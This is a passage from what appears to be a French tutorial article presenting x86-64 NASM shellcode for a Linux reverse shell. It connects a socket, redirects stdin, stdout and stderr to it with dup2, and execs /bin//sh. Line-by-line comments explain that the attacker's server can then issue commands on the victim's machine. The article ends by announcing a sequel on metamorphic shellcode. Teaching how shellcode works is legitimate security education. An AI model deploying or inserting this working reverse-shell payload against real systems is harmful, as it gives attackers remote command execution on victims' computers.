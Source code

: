 ```nasm
	;Ici la structure est sur la stack (RSP) donc RSI prends la valeur de l'adresse de RSP
	mov dl, 16 ;RDX prends la valeur 16 qui corresponds à la taille de la structure
	push r8 ; On push sur la stack la valeur du file descriptor du socket
	pop rdi ; On la récupère dans le registre RDI. Ici, RDI = file descriptor du socket
	mov al, 42 ; RAX prends la valeur 42 (numéro du syscall SYS_CONNECT)
	syscall
	mov al, 33 ; RAX prends la valeur 33 (numéro du syscall SYS_DUP2)
	push r8 ; On push sur la stack la valeur du file descriptor du socket
	pop rdi ; On la récupère dans le registre RDI. Ici, RDI = file descriptor du socket
	xor rsi, rsi ; On XOR RSI avec lui même donc RSI = 0. Ici RSI = STDIN = 0
	syscall

	; A la fin de ce syscall, ce qu'il vient de ce passer :
	; le file descriptor STDIN de la victime a été dupliqué et il prend maintenant la valeur 
	; du file descriptor du socket. En d'autres termes, les entrées effectuées sur le serveur 
	; contrôlé par l'attaquant sont désormais interprétées comme des entrées 
	; faites par la victime sur son ordinateur compromis.

	mov al, 33 ; RAX prends la valeur 33 (numéro du syscall SYS_DUP2)
	push r8
	pop rdi
	mov sil, 1 ; RSI prends la valeur 1 qui vaut STDOUT (sortie utilisateur)
	syscall
	mov al, 33 ; RAX prends la valeur 33 (numéro du syscall SYS_DUP2)
	push r8
	pop rdi
	mov sil, 2 ; RSI prends la valeur 2 qui vaut STDERR (affichage d'erreurs)
	syscall
	xor rsi, rsi ; Efface RSI en le mettant à zéro
	push rsi ; On push sur la stack un pointeur NULL pour les arguments de la fonction execve
	mov rdi, 0x68732f2f6e69622f   ; Charge l'adresse de la chaîne "/bin//sh" dans RDI.
	push rdi ; On push sur la stack l'adresse de la chaîne "/bin//sh"
	push rsp ; On push l'adresse actuelle de la stack (pointeur vers la chaîne "/bin//sh")
	pop rdi ; RDI récupère l'adresse de la chaîne "/bin//sh"
	mov al, 59 ; RAX prends la valeur 59 (numéro du syscall SYS_EXECVE)
	cdq ; Étend le signe de EAX vers EDX pour que RDX contienne 0
	; Cela signifie qu'il n'y a pas d'arguments à passer à execve
	syscall ; Appelle la fonction execve pour exécuter le shell "/bin//sh"
```

# Partie 2 !

Dans le prochain article,  on apprendra ce qu'est un shellcode métamorphique et comment en créer rapidement et facilement en utilisant Python !

